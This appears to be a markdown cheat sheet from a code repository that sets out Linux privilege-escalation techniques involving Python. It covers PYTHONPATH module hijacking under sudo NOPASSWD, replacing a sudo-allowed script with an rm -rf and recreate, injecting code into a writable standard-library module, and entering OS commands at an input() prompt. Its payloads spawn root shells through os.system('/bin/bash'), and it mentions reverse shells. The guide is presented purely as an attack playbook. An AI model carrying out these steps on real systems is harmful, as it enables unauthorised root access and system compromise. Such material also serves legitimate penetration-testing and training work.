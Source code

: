 ### There are multiple ways to escalate with python

## EXAMPLES:

# MODULE HIJACKING

#### 1) SETENV: NOPASSWD /usr/bin/python /home/whatever/script.py

#### 2) Check if you can overwrite an already existing module in python, or simply create the missing import module that the script asks

#### E.g.: ImportError: No module named pwned

#### 3) Create the malicious binary in any directory we have write access to (/tmp directory as usual)

#### 4) The payload can be (import os; os.system('/bin/bash') or a python reverse shell.

#### 5) chmod +x pwned.py

#### 6) sudo PYTHONPATH/tmp/ /usr/bin/python /home/whatever/script.py

#### 7) Enjoy root!

# SUDO PRIVILEGE ESCALATION

#### 1) NOPASSWD: /usr/bin/python /home/USER/script.py

#### 2) If the python script is under the current user's home directory, we can remove the script and create the new one with the same name.

#### rm -rf /home/USER/script.py

#### touch /home/USER/script.py

#### 3) Insert payload (import os;os.system('/bin/bash')

#### 4) GGEZ

# MODULE OVERRIDING 

#### If the Python script contains a module that can be modified by current user, we can inject arbitrary code into the module.

#### 1) First, check what modules the Python script uses.

#### 2) find / -name "random.py" 2>/dev/null

#### 3) ls -la /usr/lib/python3.6/random.py

#### 4) If we have write permissions on the file, we can inject our own malicious code for privesc (import os; os.system('/bin/bash')

#### 5) Execute for root shell ;)

# OS COMMANDS IN INPUT()

#### 1) If the python executable asks for input, you can try to enter OS commands like:

#### 2) Input: __import__('os').system('id')
